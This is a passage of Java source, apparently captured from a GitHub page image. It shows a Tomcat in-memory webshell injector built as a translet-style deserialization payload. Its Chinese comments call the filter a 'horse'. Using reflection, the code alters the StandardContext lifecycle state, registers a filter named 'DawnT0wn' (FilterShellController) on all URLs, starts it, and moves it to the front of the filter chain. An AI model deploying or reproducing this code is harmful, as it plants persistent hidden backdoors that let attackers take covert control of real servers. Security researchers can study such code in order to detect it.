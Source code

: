 ```
                        } else if (o instanceof org.apache.catalina.core.StandardContext) {
                            standardContext = (org.apache.catalina.core.StandardContext) o;
                        }
                    }
                    if (standardContext != null) {
                        //修改状态，要不然添加不了
                        java.lang.reflect.Field stateField = org.apache.catalina.util.LifecycleBase.class.getDeclaredField("state");
                        stateField.setAccessible(true);
                        stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTING_PREP);
                        //创建一个自定义的Filter马
                        Filter DawnT0wn = new FilterShellController();
                        //添加filter马
                        javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("DawnT0wn", DawnT0wn);
                        filterRegistration.setInitParameter("encoding", "utf-8");
                        filterRegistration.setAsyncSupported(false);
                        filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false, new String[]{"/*"});
                        //状态恢复，要不然服务不可用
                        if (stateField != null) {
                            stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTED);
                        }

                        if (standardContext != null) {
                            //生效filter
                            java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class.getMethod("filterStart");
                            filterStartMethod.setAccessible(true);
                            filterStartMethod.invoke(standardContext, null);

                            //把filter插到第一位
                            org.apache.tomcat.util.descriptor.web.FilterMap[] filterMaps = standardContext.findFilterMaps();
                            for (int i = 0; i < filterMaps.length; i++) {
                                if (filterMaps[i].getFilterName().equalsIgnoreCase("DawnT0wn")) {
                                    org.apache.tomcat.util.descriptor.web.FilterMap filterMap = filterMaps[i];
                                    filterMaps[i] = filterMaps[0];
                                    filterMaps[0] = filterMap;
                                    break;
                                }
                            }
                        }
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {

```